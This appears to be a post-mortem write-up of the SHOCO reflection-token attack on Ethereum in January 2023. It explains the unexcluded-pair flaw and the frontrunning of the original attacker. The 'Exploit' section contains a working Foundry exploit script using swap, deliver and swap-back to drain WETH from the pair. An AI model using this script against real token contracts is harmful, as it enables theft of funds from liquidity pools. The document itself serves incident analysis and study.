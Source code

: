 # 230119-SHICO

Analyzing the [TINU attack incident](./230126_TINU.md), it was found that the attacker also attempted a similar attack vector against the [SHOCO token](https://etherscan.io/address/0x31a4f372aa891b46ba44dc64be1d8947c889e9c6), but was [frontrun](https://etherscan.io/tx/0x2e832f044b4a0a0b8d38166fe4d781ab330b05b9efa9e72a7a0895f1b984084b). Below is a brief analysis of this attack.

## AttackTx

![](../image/230119_SHOCO.assets/2433.png)

![](../image/230119_SHOCO.assets/2519.png)

A simple analysis of the bot's [AttackTx](https://phalcon.blocksec.com/explorer/tx/eth/0x2e832f044b4a0a0b8d38166fe4d781ab330b05b9efa9e72a7a0895f1b984084b) and the original [attackContract](https://app.dedaub.com/ethereum/address/0x15d684b4ecdc0ece8bc9aec6bce3398a9a4c7611/decompiled) reveals that this attack is similar to TINU, except the attacker used a more complex `skim->deliver` call chain.

![](../image/230119_SHOCO.assets/2627.png)

It is worth mentioning that the original attacker did not use Flashbots' privacy service to send the [attack](https://etherscan.io/tx/0x2f2c3c1c648f6ef0fc3600a91ad389daeb6c76602c4bf0100475696535b6f84f), and the code only verified `msg.sender`, which made the transaction initiated vulnerable to frontrunning.

![](../image/230119_SHOCO.assets/2930.png)

The bot, however, used Flashbots to initiate the transaction, bribing the Builder with 0.09 Ether and ultimately profiting approximately 4.067 Ether.

![](../image/230119_SHOCO.assets/3104.png)

After the attack, `rTotal` decreased, and `tFeeTotal` increased, indicating that the vulnerability should be consistent with TINU.

## Vulnerability

Test SHOCO using the following code.

``` solidity
function testExcludePair() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);
    console2.log("exclude pair?", shoco.isExcluded(address(shoco_weth)));
    // false
}

function testCondition() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);

    uint256 rTotal = uint256(vm.load(address(shoco), bytes32(uint256(14))));
    uint256 rExcluded = getMappingValue(address(shoco), 3, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 tExcluded = getMappingValue(address(shoco), 4, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 rPair = getMappingValue(address(shoco), 3, address(shoco_weth));

    emit log_named_uint("SHOCO rTotal", rTotal);       // 92755547632244760386804193176548296809462337522816469006214886422157380388136
    emit log_named_uint("SHOCO rExcluded", rExcluded);  // 8156838275115295013986843616955720757118132673218460444629959325168666253906
    emit log_named_uint("SHOCO tExcluded", tExcluded);  // 87404117343064238256026
    emit log_named_uint("Pair rOwned", rPair); // 92466134384845745906067152367297685498563381326034118259801712787064725855887
    console2.log("rPair > rSupply?", rPair > rTotal-rExcluded); // true
}
```

It can be observed that it is identical to the vulnerability in TINU, i.e., failure to exclude the pair and increasing `rOwned` out of thin air, meeting the conditions for attack. Code comparison also verifies that SHOCO's code follows the same logic as TINU.

## Exploit

Therefore, a similar script can be directly used to launch the attack.

``` solidity
function testExploit() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(shoco_weth)), weth.decimals());
    deal(address(weth), address(this), 2000 ether);

    uint256 rTotal = uint256(vm.load(address(shoco), bytes32(uint256(14))));
    uint256 rExcluded = getMappingValue(address(shoco), 3, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 rAmountOut = rTotal-rExcluded;
    uint256 shocoAmountOut = shoco.tokenFromReflection(rAmountOut) - 0.1*10**9;

    (uint reserve0, uint reserve1, ) = shoco_weth.getReserves();
    uint256 wethAmountIn = getAmountIn(shocoAmountOut, reserve1, reserve0);
    emit log_named_decimal_uint("WETH amountIn", wethAmountIn, weth.decimals());
    weth.transfer(address(shoco_weth), wethAmountIn);

    shoco_weth.swap(
        shocoAmountOut,
        0, 
        address(this),
        ""
    );

    shoco.deliver(shoco.balanceOf(address(this))*99999/100000);

    (reserve0, reserve1, ) = shoco_weth.getReserves();
    uint256 wethAmountOut = getAmountOut(shoco.balanceOf(address(shoco_weth))-reserve0, reserve0, reserve1);
    shoco_weth.swap(0, wethAmountOut, address(this), "");
    if (wethAmountIn < wethAmountOut) {
        emit log_named_decimal_uint("Attack profit:", wethAmountOut - wethAmountIn, weth.decimals());
    } else {
        emit log_named_decimal_uint("Attack loss:", wethAmountIn - wethAmountOut, weth.decimals());
    }
}

function testSwap() external {
    uint attackBlockNumber = 16440978;
    vm.rollFork(attackBlockNumber);
    uint256 rTotal = uint256(vm.load(address(shoco), bytes32(uint256(14))));
    uint256 rExcluded = getMappingValue(address(shoco), 3, address(0xCb23667bb22D8c16e742d3Cce6CD01642bAaCc1a));
    uint256 shocoDeliver = shoco.tokenFromReflection(rTotal-rExcluded)-0.1*10**9;

    // uint256 amountOut = 1 ether;
    uint256 amountOut = 4.3 ether;
    shoco_weth.swap(shocoDeliver, amountOut, address(this), "1");
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(this)), weth.decimals());
}

function uniswapV2Call(address /*sender*/, uint /*amount0*/, uint /*amount1*/, bytes calldata /*data*/) external {
    shoco.deliver(shoco.balanceOf(address(this))*99999/100000);
}
```

The only difference is that burning all tokens obtained from `swap` here would cause the pair's balance to be too large, leading to an error in the final `_update`: `require(balance0 <= uint112(-1) && balance1 <= uint112(-1), 'UniswapV2: OVERFLOW');`. Hence, they cannot all be used for `deliver`. The final profit is approximately 4.3 Ether.

The complex call chain in the original attack may have been obtained through testing, which is not discussed here.

## Misc

Obviously, the actual profit of 4.3 Ether is slightly more than the original attack's approximately 4.16 Ether. Therefore, upon further examination of the SHOCO token, it was found that someone related to the Nomad Bridge attack, launched another [attack](https://phalcon.blocksec.com/explorer/tx/eth/0xe28eac8bbe116c117621df1aba2bffe3ae73dd205faede17c59c8a38ef32f4b3) against it a month later. 

Furthermore, it can be observed that the [attackContract](https://etherscan.io/address/0xa3803ca668071382c525248d0416769ea775ccae) used was deployed by another address [0x961c](https://etherscan.io/address/0x961c44acf3198da23e289445d3db6a7531890b50), and since its contract had no protection measures, it was directly used by 0x1dbd to complete frontrun.